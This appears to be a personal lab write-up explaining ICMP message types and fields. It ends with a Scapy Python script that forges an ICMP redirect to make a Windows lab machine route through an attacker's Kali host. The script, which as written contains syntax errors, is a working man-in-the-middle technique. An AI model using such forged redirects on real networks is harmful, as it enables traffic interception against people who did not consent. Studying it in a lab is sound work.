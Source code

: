 # ICMP

ICMP is a layer 3 protocol that is responsible for notifying machine on the network about problems with the IP protocol, as well and managing it.

First, ICMP stands for `Internet Control Message Protocol`. The way it operates is simple, whenever there is an incident with the IP protocol, a message is sent to notify the sending computer of it. An ICMP packet is built very dynamically, there are 3 main fields in it and the rest are dependant.

## Types

Each ICMP message has a code that defines what the meaning of the message is. Here's a list:

| Type | Message                 |
| ---: | :---------------------- |
|    0 | Echo Reply              |
|    3 | Destination Unreachable |
|    4 | Source Quench           |
|    5 | Redirect                |
|    8 | Echo                    |
|   11 | Time Exceeded           |
|   12 | Parameter Problem       |
|   13 | Timestamp               |
|   14 | Timestamp Reply         |
|   15 | Information Request     |
|   16 | Information Reply       |

There were more messages added later on but we will not elaborate on them in this summary.

The most used ICMP messages are the `Echo & Echo Reply` message and the `Destination Unreachable` message.

> #### `Echo & Echo Reply`
>
> The Echo message is an "alive-check", when an echo message gets sent to a machine it will send back an echo reply message. It is a way to know if there is connectivity to a machine. That is what the ping program does.  
>
> Note: If a machine doesn't reply to an echo it does not neccesarily mean that there is no connectivity, it might be a firewall issue.

> #### `Destination Unreachable`
>
> A destination unreachable message is sent when the target machine of a packet above layer 3 is well... unreachable, this message will be sent by a router.

And a bonus message.

> #### `Redirect`
>
> A Redirect message is sent when a router (Likely the LAN's default gateway) routes a packet through another router on the same LAN as the sender machine, in that case it would be better off to send the packet straight to that other router and save a hop. So, the router will send a redirect message to the sender machine and alter their routing table so that next time they will send it to the other ruter immediately.

## Codes

Codes are just like types, but for types. Each message type has different codes that are used to define even more what is the problem. Like, message type `Redirect` has 4 codes (0, 1, 2, 3) that tell it to redirect for a whole network (0), a specific host(1), a specific service from a network (2) or a specific service from a host (3). 

`Destination Unreachable` also has codes (0, 1, 2, 3, 4, 5) for if a net (0), host (1), protocol (2) or a port (3) are unreachable, fragmentation mishap (4) or a routing failure (5).

If a type has no codes then that field will just be 0.

## The rest of the fields

The rest of the field take up the rest of the packet's buffer. The buffer is 64 bits long, 8 for Type, 8 for Code and 16 for checksum leave 32 bits for the other fields which are defualtly reserved. That is because the developers of the protocol thought that someday more types will added so dynamics are required.

The reserved 32 bit buffer is allocated according the type and code, if `Redirect` is sent then the 32 bits will be used to save the IP address of the preffered gateway. If `Destination Unreachable` is sent, the 32 bits are left empty since they have no use.

# ICMP Redirection Attack

An ICMP redirection attack takes advantage of the ICMP redirect message, and an attacker tries to place himself as a gateway for a victim machine on the local network. It is very simple. Here is the network layout:

![Network map, Kali IP change to .4 instead of .5](/Pictures/Network_Map.png)

The Attacker is the Kali machine (192.168.100.5), My victim is the 'Win10 - 01' machine (192.168.100.1) and the machine I am going to gateway to is the DC (192.168.50.1). Now, let's craft ourself a redirect packet.

*click click*... *keyboard noises*... *Head slaminh against desk*... *more keyboard noises*...

Anddddd there we go!

```
# ICMP Redirect Attack.py
# 05.02.2023
# By Timon

# Imports
from scapy.all import *

# Constants
VICTIM_IP   = "192.168.100.1"
REAL_GW     = "192.168.100.254"
ATTACKER_GW = "192.168.100.4"
TARGET_NET  = "192.168.50.1"
ICMP_TYPE   = 5
ICMP_CODE   = 1

def main():
    malicious_icmp = IP(\
                        src=REAL_GW,\       # I pose as the default gateway of the LAN.
                        dst=VICTIM_IP)/\    # Send it to the victim.
                     ICMP(\
                        type=ICMP_TYPE,\    # Enter type and code.
                        code=ICMP_CODE\
                        gw=ATTACKER_GW)/\   # GW tells victim what gw to route to instead.
                     IP(\
                        src=VICTIM_IP,\     # ICMP require the header of the IP pacet it is
                        dst=TARGET_NET)     # related to. Here we forge an IP header.
    
    send(malicious_icmp)                    # Send the packet on the wire!

if (__name__ == "__main__"):
    main()
```
A python script using scapy, creates a redirect icmp packet and sends it.

At first it did not work, and I didn't know why. The script was perfect and the victim machine recieved the packet, so it was very fraustrating ;-; . But then I found the problem!

Exhibit 1 madafaka, this bitch!

![Default rule for ICMPv4 traffic](\Pictures\Old_Firewall_Rule.PNG)